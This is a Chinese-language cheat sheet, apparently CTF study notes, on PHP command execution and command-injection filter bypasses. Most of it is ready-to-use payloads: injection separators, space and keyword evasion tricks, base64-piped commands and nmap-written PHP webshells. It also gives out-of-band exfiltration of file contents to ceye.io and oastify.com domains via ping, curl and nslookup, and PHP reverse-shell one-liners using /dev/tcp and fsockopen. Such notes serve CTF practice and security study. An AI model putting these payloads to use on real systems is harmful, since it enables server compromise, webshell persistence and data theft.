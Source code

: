 ## **php命令执行函数**
php的命令行执行函数：
```
反撇号 `` ：输出并返回shell结果。
    用法：echo `whoami`;
system()：执行外部程序，并且显示输出
    用法：system('whoami')
passthru()
    执行外部程序并且显示原始输出。
    用法：passthru('whoami')
shell_exec()
    通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回
    用法：shell_exec('id’);
exec()
    不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面
    用法：exec($_POST['system'], $output);print_r($output);
popen()
proc_open()
pcntl_exec()

@call_user_func('file_get_contents', '/etc/passwd');
```


## **0x00.远程命令执行**

应用程序会调用系统的命令函数，当攻击者可以控制这些函数的参数时，就可以把恶意命令拼接到正常命令中，从而造成远程命令执行漏洞

1. 命令注入漏洞产生的原因
```
1、用户可以控制输入的内容
2、用户输入的内容被当作命令执行
```
2. 漏洞产生位置
* web源码\
  Nexus\
  Webmin\
  ElasticSearch
* 中间件平台\
  weblogic\
  Apache
* 其他环境\
  Postgresql\
  Samba\
  Supervisord



## **0x01.常用命令执行**
shell_exec("ping -c 4 ".$ip);
如ping 4次功能输入框
```

& 前后命令同时进行
ping -c 2 127.0.0.1 & cat /flag
ping -c 2 127.0.0.1 & cat flag.php  

;  先前后后命令都执行
ping -c 2 127.0.0.1 ; cat flag.php  

&& 前面成功，后面才执行

| 管道符，前面结果作为后面的参数

|| 前面失败，后面才执行
可以用于绕过后面有限制的命令
cat flag.php || >/dev/null 2>&1
后面命令表示不回显，不能让后面的命令执行。
还可以：?c=cat flag.php%0a  也不让后面命令执行


namp参数写文件webshell
?host=' <?php @eval($_POST["cmd"]);?> -oG test.php '
或直接读
?host=' <?php echo `cat /flag`;?> -oG test.php '

?host=' <?= @eval($_POST[1]);?> -oG a.phtml '
```



## **0x02.空格绕过**
网站过滤了空格，命令中不能出现空格
```
1. 使用linux下的分割符变量替换空格：
$IFS   =  ${IFS}    $IFS$1
如：cat$IFS$1/flag

2.替换无空格命令
{cat,/flag}

3.替换无空格命令
cat</flag

4.cat%09/flag
%09 table符url编码，有可能绕过白名单了会再解码一次。
```



## **0x03.命令字符替换**
ls换dir
cat查看命令替换：
```
cat    从第一行开始显示全部内容
tac    从最后一行显示全部内容
nl    显示全部内容，且前面有行号
more    按页显示文本
less        按页显示文本
head    显示头指定的行数  `head -n 5 file.txt` 会显示 `file.txt` 文件的前5行。
tail    显示尾指定的行数
c'a't  加引号
ca""t
ca\t  加一个换行符一样可执行
```

名称替换，如flag
```
flag
f*
f???
fl?g
fl''ag
a=g;cat fla$a  //定义a变量，替换变量
fla${b}g   //没有b变量，替换为空白

fla\g   //加一个换行符一样可执行
fla'g'  //加引号
```
## **0x04.组合绕过命令**
```
输出flag.php文件中内容：
echo cat flag.php|bash
$IFS$作分隔符：
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
//Y2F0IGZsYWcucGhw ->cat flag.php,输出给base64还原然后sh执行

?c=echo(`nl%09f*`);
?c=echo(`less%09f*`);
?c=echo(`more%09f*`);


假如当前目录只有flag.php文件，先ls，再作为参数cat。
cat `ls` 
$IFS$作分隔符：
cat$IFS$9`ls` 
//内联，就是将反引号内命令的输出作为输入执行。
```

## **绕过命令分隔符；**
linux下执行两条不同的命令中间需要分隔符，分隔符一般都是用`||`或者`;` 这两个一般都会有一个不会被禁掉，直接用就行，`;`只起分隔作用，不关心彼此是否执行成功，所有命令都会执行，而`||`实现逻辑或的功能，只有在左边的命令执行失败时，右边的命令才会执行





## **0x05.无回显远程命令**
sleep 5测试睡眠
1. bash反弹shell
2. DNSlog携带
3. 写文件到web。如：nl f*>1.txt  。需要目录可写。
```
nl f*>1.txt
ls|tee 1   写到1文件
cat /flag|tee 1
cp flag.php 2.txt
mv flag.php 3.txt
```
```
ping ：
ping `whoami`.ip.port.2qytvx.ceye.io
ping对域名比较严格，域名不能有{}，==
找不到主机:
{666}.2qytvx.ceye.io
2qytvx.ceye.io/{666}
ping `nl flag.php|awk 'NR==15'|tr -cd 'a-zA-Z0-9-'`.mf5ak5sgm49u09wh9c8g05ddg4mxatyi.oastify.com
这里flag在15行，可以多试。

curl ：
curl -X POST http://ip.port.xxxxxx.ceye.io/`whoami`
会先执行whoami,再ping,curl
curl http://5lrtqoyzsnfd6s20fvez6ojwmnsfg94y.oastify.com/`cat flag.php|grep ctfshow`

nslookup:
nslookup `cat /flag`.2qytvx.ceye.io
nslookup `cat /flag | base64`.2qytvx.ceye.io
```

## **php命令相关**
system($_GET['cmd'])函数
反弹shell
```
php -r 'exec("/bin/bash -i >& /dev/tcp/[host]/[port]");'
```
```
php -r '$sock=fsockopen("[host]",[port]);exec("/bin/bash -i <&3 >&3 2>&3");'
```

session竞争
对于system($_GET['cmd'])函数，也可以用session，用cmd=php /tmp/sess_aaaa


16进制绕过
```
cmd=php -r eval(hex2bin(substr(6563686f20606d797371)

cmd=php -r eval(hex2bin(substr(s6563686f20606d797371)

cmd=php -r eval(hex2bin(substr(_6563686f20606d797371)
```



## **0x06.限制命令长度的远程命令**
如限制命令长度字符为9:
把超过9的命令进行base64编码
差分不同段成符合长度
命令换行
倒序每一个命令生成以文件名
文件名按时间查看，并写入一个文件
sh x 执行文件

^
查看当前目录中的文件内容flag。
先>nl
再*

参考<https://www.cnblogs.com/pursue-security/p/15403906.html>
